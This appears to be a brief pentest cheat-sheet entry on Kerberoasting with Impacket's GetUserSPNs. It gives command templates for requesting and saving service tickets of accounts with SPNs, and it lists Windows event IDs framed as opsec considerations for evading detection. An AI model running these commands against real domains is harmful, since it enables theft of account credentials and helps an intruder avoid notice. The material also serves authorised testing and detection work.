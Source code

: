 ### Source
https://raw.githubusercontent.com/SecureAuthCorp/impacket/master/examples/GetUserSPNs.py  

### Get user with SPN set and request tickets (kerberoast)
```
impacket-GetUserSPNs -request <domain>/<user>:<password> -outputfile <file>
```

### Query single account for available SPNs 
```
impacket-GetUserSPNs -request <domain>/<user>:<password> -request-user <user>
```

### Opsec considerations - Windows Security Log Event IDs
```
-Logon (4624)
-Logoff (4634)
-Kerberos Authentication Service (4768)
-Kerberos Service Ticket Operations (4769)
-Credential Validation (4776)
```

